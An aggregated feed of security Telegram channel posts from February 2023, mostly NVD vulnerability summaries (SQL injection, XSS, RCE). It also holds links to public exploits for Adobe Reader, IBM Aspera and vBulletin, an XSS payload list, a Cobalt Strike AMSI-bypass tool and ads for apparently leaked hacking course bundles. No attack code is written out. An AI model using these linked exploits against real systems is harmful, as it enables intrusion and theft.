In Config Manager, there is a possible command injection due to improper input validation. This could lead to remote escalation of privilege from a proximal attacker with no additional execution privileges needed. User interaction is not needed for exploitation. Patch ID: A20210009; Issue ID: OSBNB00123234.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48311

<blockquote>
‼ CVE-2022-48311 ‼

**UNSUPPORTED WHEN ASSIGNED** Cross Site Scripting (XSS) in HP Deskjet 2540 series printer Firmware Version CEP1FN1418BR and Product Model Number A9U23B allows authenticated attacker to inject their own script into the page via HTTP configuration page. NOTE: This vulnerability only affects products that are no longer supported by the maintainer.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0234

<blockquote>
‼ CVE-2023-0234 ‼

The SiteGround Security WordPress plugin before 1.3.1 does not properly sanitize user input before using it in an SQL query, leading to an authenticated SQL injection issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0686

<blockquote>
‼ CVE-2023-0686 ‼

A vulnerability was found in SourceCodester Online Eyewear Shop 1.0. It has been classified as critical. This affects the function update_cart of the file /oews/classes/Master.php?f&#61;update_cart of the component HTTP POST Request Handler. The manipulation of the argument cart_id leads to sql injection. It is possible to initiate the attack remotely. The identifier VDB-220245 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24199

<blockquote>
‼ CVE-2023-24199 ‼

Raffle Draw System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at delete_ticket.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24201

<blockquote>
‼ CVE-2023-24201 ‼

Raffle Draw System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at get_ticket.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24191

<blockquote>
‼ CVE-2023-24191 ‼

Online Food Ordering System v2 was discovered to contain a cross-site scripting (XSS) vulnerability via the redirect parameter in signup.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24195

<blockquote>
‼ CVE-2023-24195 ‼

Online Food Ordering System v2 was discovered to contain a cross-site scripting (XSS) vulnerability via the page parameter in index.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24194

<blockquote>
‼ CVE-2023-24194 ‼

Online Food Ordering System v2 was discovered to contain a cross-site scripting (XSS) vulnerability via the page parameter in navbar.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24202

<blockquote>
‼ CVE-2023-24202 ‼

Raffle Draw System v1.0 was discovered to contain a local file inclusion vulnerability via the page parameter in index.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24197

<blockquote>
‼ CVE-2023-24197 ‼

Online Food Ordering System v2 was discovered to contain a SQL injection vulnerability via the id parameter at view_order.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24198

<blockquote>
‼ CVE-2023-24198 ‼

Raffle Draw System v1.0 was discovered to contain multiple SQL injection vulnerabilities at save_winner.php via the ticket_id and draw parameters.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24192

<blockquote>
‼ CVE-2023-24192 ‼

Online Food Ordering System v2 was discovered to contain a cross-site scripting (XSS) vulnerability via the redirect parameter in login.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24200

<blockquote>
‼ CVE-2023-24200 ‼

Raffle Draw System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at save_ticket.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# proxy_bar
`2023-02-06`

* https://github.com/incredibleindishell/SSRF_Vulnerable_Lab/tree/master/Host_header

<blockquote>
Лол))))) 
SSRF
</blockquote>



---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45722

<blockquote>
‼ CVE-2022-45722 ‼

ezEIP v5.3.0(0649) was discovered to contain a cross-site scripting (XSS) vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0679

<blockquote>
‼ CVE-2023-0679 ‼

A vulnerability was found in SourceCodester Canteen Management System 1.0. It has been rated as critical. Affected by this issue is some unknown functionality of the file removeUser.php. The manipulation of the argument id leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-220220.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-29416

<blockquote>
‼ CVE-2022-29416 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in Afterpay Gateway for WooCommerce &lt;&#61; 3.5.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-125086

<blockquote>
‼ CVE-2014-125086 ‼

A vulnerability has been found in Gimmie Plugin 1.2.2 and classified as critical. Affected by this vulnerability is an unknown functionality of the file trigger_login.php. The manipulation of the argument userid leads to sql injection. Upgrading to version 1.3.0 is able to address this issue. The name of the patch is fe851002d20a8d6196a5abb68bafec4102964d5b. It is recommended to upgrade the affected component. The associated identifier of this vulnerability is VDB-220207.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-125084

<blockquote>
‼ CVE-2014-125084 ‼

A vulnerability, which was classified as critical, has been found in Gimmie Plugin 1.2.2. This issue affects some unknown processing of the file trigger_referral.php. The manipulation of the argument referrername leads to sql injection. Upgrading to version 1.3.0 is able to address this issue. The name of the patch is 7194a09353dd24a274678383a4418f2fd3fce6f7. It is recommended to upgrade the affected component. The identifier VDB-220205 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-125085

<blockquote>
‼ CVE-2014-125085 ‼

A vulnerability, which was classified as critical, was found in Gimmie Plugin 1.2.2. Affected is an unknown function of the file trigger_ratethread.php. The manipulation of the argument t/postusername leads to sql injection. Upgrading to version 1.3.0 is able to address this issue. The name of the patch is f11a136e9cbd24997354965178728dc22a2aa2ed. It is recommended to upgrade the affected component. VDB-220206 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2023-02-05`

<blockquote>
🌳🌳Network and Web Hacking 🌳🌳

🍀Pentesting Routers

🍀Attacking SSH with Metasploit, Nmap, Medusa, Hydra, Ncrack

🍀SNMP attacks

🍀Bypassing Firewalls

🍀Payloads and Shells

🍀HTTP/HTTPS tunneling

🍀Port Forwaring, Pivoting, Reverse Connects

🍀Privilege Escalation and UAC bypass

🍀Hash Dumping and Mimikatz

🍀Windows Sessions, Stations and Desktops

🍀Impersonation attacks

🍀WMIC post exploitation

🍀Hidden bind shells

🍀Bitsadmin by Its_me_kali

🍀Browser Password Recovery

🍀PAC Attacks

🍀DNS Poisoning

🍀Veil Framework 

🍀DLL Injection using Appinit_DLLs

🍀Stripping Manifest Files for DLL Hijacking

🍀Attacking with DLL Forwarding 

🍀Anti-Forensics techniques

🍀SSL/TLS misconfigurations

🍀Command Injection

🍀SQL Injection

🍀Cross-Site Scripting (XSS)

🍀Local and Remote File Inclusion (LFI / RFI)

🍀Cross-Site Request Forgery (CSRF)

🍀And other interesting topics

⛅️Link : https://mega.nz/folder/YtU0WZyR&#35;wDAyWeTCqz-g4-GXhP9MgA

❤️‍🔥Regards : @MajorKali

♡ ㅤ    ❍ㅤ    ⎙ㅤ  ⌲           
ˡᶦᵏᵉ  ᶜᵒᵐᵐᵉⁿᵗ  ˢᵃᵛᵉ  ˢʰᵃʳᵉ
</blockquote>

---

# proxy_bar
`2023-02-05`

* https://svn.nmap.org/nmap/scripts/http-sql-injection.nse

<blockquote>
SCRIPT HTTP-SQL-INJECTION (NMAP)
download
</blockquote>


---

# defcon_news
`2023-02-04`

<blockquote>
Gartner Peer Insights widget - postMessage DOM XSS vulnerability
https://www.reddit.com/r/netsec/comments/10sy4s7/gartner_peer_insights_widget_postmessage_dom_xss/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/10sy4s7/gartner_peer_insights_widget_postmessage_dom_xss/">
https://www.reddit.com/r/netsec/comments/10sy4s7/gartner_peer_insights_widget_postmessage_dom_xss/
</a>
<blockquote>
Posted in the netsec community.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0677

<blockquote>
‼ CVE-2023-0677 ‼

Cross-site Scripting (XSS) - Reflected in GitHub repository phpipam/phpipam prior to v1.5.1.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0676

<blockquote>
‼ CVE-2023-0676 ‼

Cross-site Scripting (XSS) - Reflected in GitHub repository phpipam/phpipam prior to 1.5.1.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0675

<blockquote>
‼ CVE-2023-0675 ‼

A vulnerability, which was classified as critical, was found in Calendar Event Management System 2.3.0. This affects an unknown part. The manipulation of the argument start/end leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-220197 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0673

<blockquote>
‼ CVE-2023-0673 ‼

A vulnerability classified as critical was found in SourceCodester Online Eyewear Shop 1.0. Affected by this vulnerability is an unknown functionality of the file oews/products/view_product.php. The manipulation of the argument id leads to sql injection. The attack can be launched remotely. The associated identifier of this vulnerability is VDB-220195.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# proxy_bar
`2023-02-04`

* https://www.ambionics.io/blog/vbulletin-unserializable-but-unreachable

<blockquote>
CVE-2023-25135
vBulletin - RCE + exploit
man+exploit

&#35;exploit &#35;vBulletin
</blockquote>



---

# cibsecurity
`2023-02-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2013-10017

<blockquote>
‼ CVE-2013-10017 ‼

A vulnerability was found in fanzila WebFinance 0.5. It has been classified as critical. Affected is an unknown function of the file htdocs/admin/save_roles.php. The manipulation of the argument id leads to sql injection. The name of the patch is 6cfeb2f6b35c1b3a7320add07cd0493e4f752af3. It is recommended to apply a patch to fix this issue. The identifier of this vulnerability is VDB-220056.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-04`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2013-10018

<blockquote>
‼ CVE-2013-10018 ‼

A vulnerability was found in fanzila WebFinance 0.5. It has been declared as critical. Affected by this vulnerability is an unknown functionality of the file htdocs/prospection/save_contact.php. The manipulation of the argument nom/prenom/email/tel/mobile/client/fonction/note leads to sql injection. The name of the patch is 165dfcaa0520ee0179b7c1282efb84f5a03df114. It is recommended to apply a patch to fix this issue. The identifier VDB-220057 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2013-10015

<blockquote>
‼ CVE-2013-10015 ‼

A vulnerability has been found in fanzila WebFinance 0.5 and classified as critical. This vulnerability affects unknown code of the file htdocs/admin/save_Contract_Signer_Role.php. The manipulation of the argument n/v leads to sql injection. The name of the patch is abad81af614a9ceef3f29ab22ca6bae517619e06. It is recommended to apply a patch to fix this issue. VDB-220054 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24576

<blockquote>
‼ CVE-2023-24576 ‼

EMC NetWorker may potentially be vulnerable to an unauthenticated remote code execution vulnerability in the Networker Client execution service (nsrexecd) when oldauth authentication method is used. An unauthenticated remote attacker could send arbitrary commands via RPC service to be executed on the host system with the privileges of the nsrexecd service, which runs with administrative privileges.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2013-10016

<blockquote>
‼ CVE-2013-10016 ‼

A vulnerability was found in fanzila WebFinance 0.5 and classified as critical. This issue affects some unknown processing of the file htdocs/admin/save_taxes.php. The manipulation of the argument id leads to sql injection. The name of the patch is 306f170ca2a8203ae3d8f51fb219ba9e05b945e1. It is recommended to apply a patch to fix this issue. The associated identifier of this vulnerability is VDB-220055.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42908

<blockquote>
‼ CVE-2022-42908 ‼

WEPA Print Away is vulnerable to a stored XSS. It does not properly sanitize uploaded filenames, allowing an attacker to deceive a user into uploading a document with a malicious filename, which will be included in subsequent HTTP responses, allowing a stored XSS to occur. This attack is persistent across victim sessions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-36484

<blockquote>
‼ CVE-2021-36484 ‼

SQL injection vulnerability in JIZHICMS 1.9.5 allows attackers to run arbitrary SQL commands via add or edit article page.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-36538

<blockquote>
‼ CVE-2021-36538 ‼

Cross Site Scripting (XSS) vulnerability in Gurock TestRail before 7.1.2 allows remote authenticated attackers to run arbitrary code via the reference field in milestones or description fields in reports.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-37317

<blockquote>
‼ CVE-2021-37317 ‼

Directory Traversal vulnerability in Cloud Disk in ASUS RT-AC68U router firmware version before 3.0.0.4.386.41634 allows remote attackers to write arbitrary files via improper sanitation on the target for COPY and MOVE operations.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-36545

<blockquote>
‼ CVE-2021-36545 ‼

Cross Site Scripting (XSS) vulnerability in tpcms 3.2 allows remote attackers to run arbitrary code via the cfg_copyright or cfg_tel field in Site Configuration page.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-37375

<blockquote>
‼ CVE-2021-37375 ‼

** UNSUPPORTED WHEN ASSIGNED ** Cross Site Scripting (XSS) vulnerability in Teradek VidiU / VidiU Mini firmware version 3.0.8 and earlier allows remote attackers to run arbitrary code via the Friendly Name field in System Information Settings. NOTE: Vedor states the product has reached End of Life and will not be receiving any firmware updates to address this issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-37316

<blockquote>
‼ CVE-2021-37316 ‼

SQL injection vulnerability in Cloud Disk in ASUS RT-AC68U router firmware version before 3.0.0.4.386.41634 allows remote attackers to view sensitive information via /etc/shadow.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-37379

<blockquote>
‼ CVE-2021-37379 ‼

** UNSUPPORTED WHEN ASSIGNED ** Cross Site Scripting (XSS) vulnerability in Teradek Sphere all firmware versions allows remote attackers to run arbitrary code via the Friendly Name field in System Information Settings. NOTE: Vedor states the product has reached End of Life and will not be receiving any firmware updates to address this issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-36712

<blockquote>
‼ CVE-2021-36712 ‼

Cross Site Scripting (XSS) vulnerability in yzmcms 6.1 allows attackers to steal user cookies via image clipping function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-37376

<blockquote>
‼ CVE-2021-37376 ‼

** UNSUPPORTED WHEN ASSIGNED ** Cross Site Scripting (XSS) vulnerability in Teradek Bond, Bond 2 and Bond Pro firmware version 7.3.x and earlier allows remote attackers to run arbitrary code via the Friendly Name field in System Information Settings. NOTE: Vedor states the product has reached End of Life and will not be receiving any firmware updates to address this issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-37377

<blockquote>
‼ CVE-2021-37377 ‼

** UNSUPPORTED WHEN ASSIGNED ** Cross Site Scripting (XSS) vulnerability in Teradek Brik firmware version 7.2.x and earlier allows remote attackers to run arbitrary code via the Friendly Name field in System Information Settings. NOTE: Vedor states the product has reached End of Life and will not be receiving any firmware updates to address this issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-36431

<blockquote>
‼ CVE-2021-36431 ‼

SQL injection vulnerability in jocms 0.8 allows remote attackers to run arbitrary SQL commands and view sentivie information via jo_json_check() function in jocms/apps/mask/inc/mask.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2023-02-03`

* https://telegra.ph/file/9b03a335b6f2a85ad463b.jpg
* https://github.com/pgaijin66/XSS-Payloads

<blockquote>
​​XSS-Payloads

This repository holds all the list of advanced &#35;XSS &#35;payloads that can be used in penetration testing. These payloads can be loaded into XSS scanners as well.

https://github.com/pgaijin66/XSS-Payloads
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/9b03a335b6f2a85ad463b.jpg">
https://telegra.ph/file/9b03a335b6f2a85ad463b.jpg
</a>
</td></tr></table>

---

# Leakers_squad
`2023-02-03`

* https://t.me/leakers_Squad/1841

<blockquote>
🔰Biggest Collection Of Cyber Security Courses.🔰

🪬 Blackhat Ethical Hacking.
⭐️ Everything About VMware.
🛡 Build an Advanced Keylogger.
🔰 Complete Ethical Hacking Course.
🔰 Ethical Hacking Cloud Computing.
⭕️ Computer Forensics.
🔹 Social Engineering.
▪️Reverse Engineering.
⭐️ Termux Complete Guide.
⭕️ Red Team Hacking Course.
💣 Hacking And Penetesting.
🧨 Hacking Wireless Networks.
🏮 Hard Ware Security.
⚒ Practical Bug hunting.
🛡 Linux Complete Guide.
💉 SQL Injection Complete Guide. + 50 more Ethical Hacking Course.

🔗Download Link : https://bit.ly/BiggestCyberSecurityCourse

(Click on first website&gt; get the course)

Contact for posting these content in your channel @Mr_Neophyte

🟡Share with Your Friends and Team🔵

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25136

<blockquote>
‼ CVE-2023-25136 ‼

OpenSSH server (sshd) 9.1 introduced a double-free vulnerability during options.kex_algorithms handling. This is fixed in OpenSSH 9.2. The double free can be triggered by an unauthenticated attacker in the default configuration; however, the vulnerability discoverer reports that &quot;exploiting this vulnerability will not be easy.&quot;

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2023-02-03`

* https://telegra.ph/file/2f95463ce21abc45f1c0f.jpg
* https://t.me/hackgit
* https://github.com/boku7/injectAmsiBypass

<blockquote>
​​injectAmsiBypass

Cobalt Strike Beacon Object File (BOF) that bypasses AMSI in a remote process with code injection.

https://github.com/boku7/injectAmsiBypass
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/2f95463ce21abc45f1c0f.jpg">
https://telegra.ph/file/2f95463ce21abc45f1c0f.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23636

<blockquote>
‼ CVE-2023-23636 ‼

In Jellyfin 10.8.x through 10.8.3, the name of a playlist is vulnerable to stored XSS. This allows an attacker to steal access tokens from the localStorage of the victim.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23635

<blockquote>
‼ CVE-2023-23635 ‼

In Jellyfin 10.8.x through 10.8.3, the name of a collection is vulnerable to stored XSS. This allows an attacker to steal access tokens from the localStorage of the victim.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# proxy_bar
`2023-02-03`

* https://blog.assetnote.io/2023/02/02/pre-auth-rce-aspera-faspex/

<blockquote>
IBM Aspera Faspex - Pre-Auth RCE
+ exploit code
read and run
</blockquote>

---

# defcon_news
`2023-02-03`

<blockquote>
Adobe Acrobat Reader - resetForm - CAgg UaF - RCE Exploit - CVE-2023-21608
https://www.reddit.com/r/netsec/comments/10s95yz/adobe_acrobat_reader_resetform_cagg_uaf_rce/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/10s95yz/adobe_acrobat_reader_resetform_cagg_uaf_rce/">
https://www.reddit.com/r/netsec/comments/10s95yz/adobe_acrobat_reader_resetform_cagg_uaf_rce/
</a>
<blockquote>
Adobe Acrobat Reader - resetForm - CAgg UaF - RCE ... - No votes and no comments
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48114

<blockquote>
‼ CVE-2022-48114 ‼

RuoYi up to v4.7.5 was discovered to contain a SQL injection vulnerability via the component /tool/gen/createTable.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48140

<blockquote>
‼ CVE-2022-48140 ‼

DedeCMS v5.7.97 was discovered to contain a cross-site scripting (XSS) vulnerability in the component /file_manage_view.php?fmdo&#61;edit&amp;filename.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0576

<blockquote>
‼ CVE-2023-0576 ‼

Server-Side Request Forgery (SSRF), Improperly Controlled Modification of Dynamically-Determined Object Attributes, Improper Restriction of Excessive Authentication Attempts vulnerability in Yugabyte DB allows Accessing Functionality Not Properly Constrained by ACLs, Communication Channel Manipulation, Authentication Abuse.This issue affects Yugabyte DB: v2.17.0.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48082

<blockquote>
‼ CVE-2022-48082 ‼

Easyone CRM v5.50.02 was discovered to contain a SQL Injection vulnerability via the text parameter at /Services/Misc.asmx/SearchTag.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3560

<blockquote>
‼ CVE-2022-3560 ‼

A flaw was found in pesign. The pesign package provides a systemd service used to start the pesign daemon. This service unit runs a script to set ACLs for /etc/pki/pesign and /run/pesign directories to grant access privileges to users in the 'pesign' group. However, the script doesn't check for symbolic links. This could allow an attacker to gain access to privileged files and directories via a path traversal attack.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-02`

<blockquote>
WordPress Quick Restaurant 2.0.2 XSS / CSRF / IDOR / Missing Authorization
http://exploit.kitploit.com/2023/02/wordpress-quick-restaurant-202-xss-csrf.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/wordpress-quick-restaurant-202-xss-csrf.html">
https://exploit.kitploit.com/2023/02/wordpress-quick-restaurant-202-xss-csrf.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# hackgit
`2023-02-02`

* https://www.youtube.com/watch?v=p0uYDOX6B9E
* https://github.com/hacksysteam/CVE-2023-21608
* https://t.me/hackgit
* https://hacksys.io/blogs/adobe-reader-resetform-cagg-rce-CVE-2023-21608

<blockquote>
CVE-2023-21608

Adobe Acrobat Reader Remote Code Execution Exploit

This bug was Use after Free caused during resetForm operation while handling object memory references.

https://github.com/hacksysteam/CVE-2023-21608

Details:
https://hacksys.io/blogs/adobe-reader-resetform-cagg-rce-CVE-2023-21608

&#35;cve
</blockquote>

<table><tr><td><b>→</b><a href="https://www.youtube.com/watch?v=p0uYDOX6B9E">
https://www.youtube.com/watch?v=p0uYDOX6B9E
</a>
<blockquote>
Admin for beginners of Adobe Campaign Classic. We cover topics such as setting up an environment, setting up operators, technical workflows.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2023-02-02`

* https://hacksys.io/blogs/adobe-reader-resetform-cagg-rce-CVE-2023-21608
* https://hacksys.io/blogs/adobe-reader-xfa-ansi-unicode-confusion-information-leak
* https://hacksys.io/blogs/foxit-reader-uaf-rce-jit-spraying-cve-2022-28672
* https://github.com/hacksysteam/CVE-2023-21608
* https://www.youtube.com/watch?v=cguBkC0opXk

<blockquote>
🔥🔥🔥Adobe Acrobat Reader - resetForm - CAgg UaF - RCE Exploit(CVE-2023-21608)
In the third part of the PDF Reader series
(first,second), hacksys are going to see how we exploited a UAF vulnerability in Adobe Acrobat Reader DC. The bug was found during our fuzzing campaign targeting popular PDF readers. They are were able to successfully exploit this vulnerability to gain RCE in the context of Adobe Acrobat Reader.

🔖CVE-2023-21608 Exploit

📺Demo: Adobe Acrobat Reader DC - UaF - Remote Code Execution - CVE-2023-21608
</blockquote>

---

# cibsecurity
`2023-02-02`

* https://www.darkreading.com/remote-workforce/patch-critical-bug-qnap-nas-devices-ripe-slaughter

<blockquote>
🕴 Patch Critical Bug Now: QNAP NAS Devices Ripe for the Slaughter 🕴

Analysts find that 98% of QNAP NAS are vulnerable to CVE-2022-27596, which allows unauthenticated, remote SQL code injection.

📖 Read

via &quot;Dark Reading&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/remote-workforce/patch-critical-bug-qnap-nas-devices-ripe-slaughter">
https://www.darkreading.com/remote-workforce/patch-critical-bug-qnap-nas-devices-ripe-slaughter
</a>
<blockquote>
QNAP NAS devices are vulnerable to CVE-2022-27596, which allows unauthenticated, remote SQL code injection.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-02`

* https://portswigger.net/daily-swig/truffle-security-relaunches-xss-hunter-tool-with-new-features

<blockquote>
🗓️ Truffle Security relaunches XSS Hunter tool with new features 🗓️

Popular hacking aid resurrected following end-of-life announcement

📖 Read

via &quot;The Daily Swig&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://portswigger.net/daily-swig/truffle-security-relaunches-xss-hunter-tool-with-new-features">
https://portswigger.net/daily-swig/truffle-security-relaunches-xss-hunter-tool-with-new-features
</a>
<blockquote>
Popular hacking aid now available with CORS misconfig detection function following end-of-life announcement
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-02`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46552

<blockquote>
‼ CVE-2022-46552 ‼

D-Link DIR-846 Firmware FW100A53DBR was discovered to contain a remote command execution (RCE) vulnerability via the lan(0)_dhcps_staticlist parameter. This vulnerability is exploited via a crafted POST request.

📖 Read

via &quot;National Vulnerability Database&quot;.
